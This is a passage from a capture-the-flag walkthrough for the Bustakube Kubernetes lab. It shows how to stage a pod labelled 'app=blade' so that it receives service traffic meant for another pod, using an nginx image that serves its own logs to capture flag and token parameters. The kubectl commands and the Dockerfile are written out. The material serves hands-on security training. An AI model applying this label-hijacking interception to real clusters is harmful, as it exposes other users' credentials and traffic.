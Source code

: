         ```
        http://blade.phreaks-nynex-kingdom/index.php?flag=s&token=s&submit=submit
        ```

105. We saw from the service file that it redirects traffic for this URL to any pods in the ```phreaks-nynex-kingdom``` namespace, so long as their ```app``` label is set to ```blade```.  We can receive some of the traffic that's going to `blade` pods if we can stage our own pod in this namespace and set its `app` label to `blade`. For this pod, we'll want to use an image that lets us see the valid requests coming from the `razor` pod. 

106. Think about what image we should use for this pod. We could use an image that would be vulnerable to remote code execution, but we don't really need to run commands in this new pod. We just need to see the incoming HTTP requests.  Since the requests are GET requests, their parameters will be logged in the webserver logs. That's the key. We have an image that runs a webserver which serves up its own log files. Here's its Dockerfile, if you're curious. It's publicly-available on Docker Hub, but it's also cached on the Bustakube cluster's registry.

        ```
        # dockerhub: bustakube/webserver-sharemylogs:latest
        FROM nginx:latest
        RUN sed -i 's/server {/server {  disable_symlinks off;/' /etc/nginx/conf.d/default.conf
        RUN sed -i 's/location \/ {/location \/ {   autoindex on;/' /etc/nginx/conf.d/default.conf
        RUN ln -s /var/log/nginx /usr/share/nginx/html/log
        RUN rm /var/log/nginx/access.log /var/log/nginx/error.log
        COPY index.html /usr/share/nginx/html/
        RUN chown -R nginx /usr/share/nginx /var/log/nginx /var/cache/nginx /var/run
        RUN chmod 777 /var/run
        RUN sed -i 's/listen       80;/listen   8000;/' /etc/nginx/conf.d/default.conf
        RUN cat /etc/nginx/conf.d/default.conf
        USER nginx
        EXPOSE 8000
        ```

107. Let's create a template for a pod that has its `app` label set to `blade`. It will use the `bustakube:webserver-sharemylogs` image.

        ```shell
        kubectl -o yaml --dry-run=client run mitm \
          --image="bustakube/webserver-sharemylogs" \
          --labels "app=blade"
        ``` 

108. Now let's create this pod it for real. Pretend this got blocked. (Note: it's not going to get blocked, but it should be...):

        ```shell
        #kubectl run mitm \
        #  --image="bustakube/webserver-sharemylogs" \
        #  --labels "app=blade"
        ``` 
